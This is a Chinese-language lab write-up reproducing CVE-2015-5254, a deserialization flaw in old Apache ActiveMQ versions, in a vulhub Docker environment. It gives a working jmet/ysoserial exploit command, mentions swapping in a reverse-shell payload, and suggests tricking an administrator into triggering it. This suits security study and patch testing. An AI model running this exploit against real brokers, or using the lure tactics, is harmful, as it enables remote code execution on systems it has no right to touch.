 <h1>（CVE-2015-5254）ActiveMQ 反序列化漏洞</h1>
<h2>一、漏洞简介</h2>
<p>Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。</p>
<h2>二、漏洞影响</h2>
<p>Apache ActiveMQ 5.13.0之前的5.x版本</p>
<h2>三、复现过程</h2>
<p>
漏洞利用过程如下：<br>
1.构造（可以使用ysoserial）可执行命令的序列化对象<br>
2.作为一个消息，发送给目标61616端口<br>
3.访问web管理页面，读取消息，触发漏洞<br>
使用jmet进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。<br>
jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。<br>
执行：<br>
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img8.png"/>
<p>此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过http://your-ip:8161/admin/browse.jsp?JMSDestination=event看到这个队列中所有消息：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img9.png"/>
<p>点击查看这条消息即可触发命令执行，此时进入容器docker-compose exec activemq bash，可见/tmp/success已成功创建，说明漏洞利用成功：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img10.png"/>
<p>将命令替换成弹shell语句再利用：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/img11.png"/>
<p>值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。</p>
<h2>参考链接</h2>
<p>https://vulhub.org/#/environments/activemq/CVE-2015-5254/</p>
